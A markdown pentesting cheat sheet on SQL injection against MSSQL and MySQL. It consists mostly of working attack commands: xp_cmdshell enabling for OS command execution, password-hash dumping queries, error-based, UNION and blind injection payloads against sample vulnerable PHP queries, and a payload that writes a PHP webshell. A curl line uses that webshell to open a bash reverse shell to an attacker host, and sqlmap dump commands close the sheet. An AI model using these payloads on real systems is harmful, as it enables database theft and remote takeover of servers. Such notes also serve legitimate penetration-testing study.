 # SQLi

## MSSQL 

### Basics

#### Connection

User account: `Administrator`
```
kali$ impacket-mssqlclient $SomeUserAccount:$somepass@$TargetIp -windows-auth
```

#### Commands

Known table `master.sys.sysusers`: https://learn.microsoft.com/en-us/sql/relational-databases/system-compatibility-views/sys-sysusers-transact-sql?view=sql-server-ver16
```
SQL> SELECT @@version;
SQL> SELECT name FROM sys.databases;
SQL> SELECT * FROM somedatabasename.information_schema.tables; # tables of the "somedatabasename" db, together with their schema
SQL> SELECT * FROM somedatabasename.someschema.sometablename; # table name of interest: "users"

SQL> select * from master.information_schema.tables;
SQL> select top 2 * from master.dbo.sysusers; # table "sysusers" is an alias /!\; top 2 lines
```

### Attacks

Function `xp_cmdshell` needs to be activated:
- usage: https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver15
- enabling: https://learn.microsoft.com/en-us/sql/database-engine/configure-windows/xp-cmdshell-server-configuration-option?view=sql-server-ver15

Example:
```
kali$ impacket-mssqlclient Administrator:thelocaladminpass@$TargetIp -windows-auth
SQL> execute sp_configure 'show advanced options', 1;
SQL> reconfigure;
SQL> execute sp_configure 'xp_cmdshell'
SQL> reconfigure;
SQL> execute xp_cmdshell 'whoami';
```

## MySQL

### Basics

#### Connection
```
$ mysql -u root -p'rootpassword' -h $DbServerIp -P $DbServerPort
```

#### Commands
```
> select version();
> select system_user();
> show databases;
> use databasetohack;
> select table_name from information_schema.tables;
> select table_name, table_schema from information_schema.tables where table_schema = 'databasetohack';
> select table_name, table_schema from information_schema.tables where table_schema = database(); # current db in use
> select column_name from information_schema.columns where table_name = 'tablenamewithusers' ;

> SELECT user, authentication_string, plugin FROM mysql.user WHERE user = 'usertohack';
```

### Attacks

#### Error-based payloads

Php mysqli queries (stands for MySQL Improved): https://www.php.net/manual/en/mysqli.query.php

Vulnerable Php query:
```
<?php
$uname = $_POST['uname'];
$passwd =$_POST['password'];

$sql_query = "SELECT * FROM users WHERE user_name= '$uname' AND password='$passwd'";
$result = mysqli_query($con, $sql_query);
?>
```

Injections:
```
someuser ' OR 1=1 -- //
' or 1=1 in (select @@version) -- //
' or 1=1 in (select version()) -- //
' or 1=1 in (select * from user_table) -- //
' or 1=1 in (select password_column from user_table) -- //
' or 1=1 in (select password_column from user_table where username_column = 'admin') -- //
```

#### Union select

Regular `UNION SELECT`: https://www.mysqltutorial.org/sql-union-mysql.aspx

Vulnerable Php query:
```
$query = "SELECT * from customers WHERE name LIKE '".$_POST["search_input"]."%'";
```

Injection:
```
' order by 1,2,3 -- //
%' union select database(), user(), @@version, null, null -- //
' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
' union select null, username, password, description, null from users -- //
```
gives:
```
SELECT * from customers WHERE name LIKE '' order by 1,2,3 -- //'";
SELECT * from customers WHERE name LIKE '%' union select database(), user(), @@version, null, null -- //'";
SELECT * from customers WHERE name LIKE '' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
```
The `order by` injection retrieves the table size.

#### Blind injections

Boolean-based, the fake user query gives an empty output:
```
http://$TargetIp/blindsqli.php?user=trueuser' AND 1=1 -- //
http://$TargetIp/blindsqli.php?user=fakeuser' AND 1=1 -- //
```

Time-based, the fake user response is immediate (time consuming):
```
http://$TargetIp/blindsqli.php?user=trueuser' AND IF (1=1, sleep(3),'false') -- //
http://$TargetIp/blindsqli.php?user=fakeuser' AND IF (1=1, sleep(3),'false') -- //
```

#### Php injection - OS command

Php injection in an `input` HTML field:
```
' UNION SELECT "<?php system($_GET['cmd']);?>", null, ..., null INTO OUTFILE "/path/on/target/webshell.php" -- //
```
and trigger the webshell:
```
curl $TargetIp/path/on/target/webshell.php?cmd=ls
curl $TargetIp/path/on/target/webshell.php?cmd=id
curl $TargetIp/path/on/target/webshell.php?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F$AttackerIp%2F$AttackerPort%200%3E%261%22
```

## Sqlmap

https://sqlmap.org/
 
```
sqlmap -u http://ip/page.php?user=dummy -p user
sqlmap -u http://ip/page.php?user=dummy -p user --dump
```


